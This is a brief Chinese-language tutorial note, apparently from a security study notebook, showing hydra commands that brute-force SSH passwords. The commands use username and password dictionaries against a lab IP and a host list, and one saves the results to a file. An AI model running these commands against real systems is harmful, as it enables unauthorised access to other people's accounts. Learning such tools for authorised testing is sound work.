 ![image-20201118102402358](75、暴力破解/image-20201118102402358.png)

```sh
hydra -l liujiang -P pass.txt 192.168.83.131 ssh
已知用户名 使用 密码字典 破解账户 得到结果
```

![image-20201118102528648](75、暴力破解/image-20201118102528648.png)

```sh
hydra -L user.txt -P pass.txt 192.168.83.131 ssh
-L  是使用用户字典 

```

![image-20201118103036383](75、暴力破解/image-20201118103036383.png)

```sh
hydra -L user.txt -P pass.txt -M hostlist.txt ssh
-M 在 ip字典里找
```

![image-20201118103018934](75、暴力破解/image-20201118103018934.png)

```sh
hydra -L user.txt -P pass.txt -M hostlist.txt ssh -o hydra.txt
输入到文件中
```
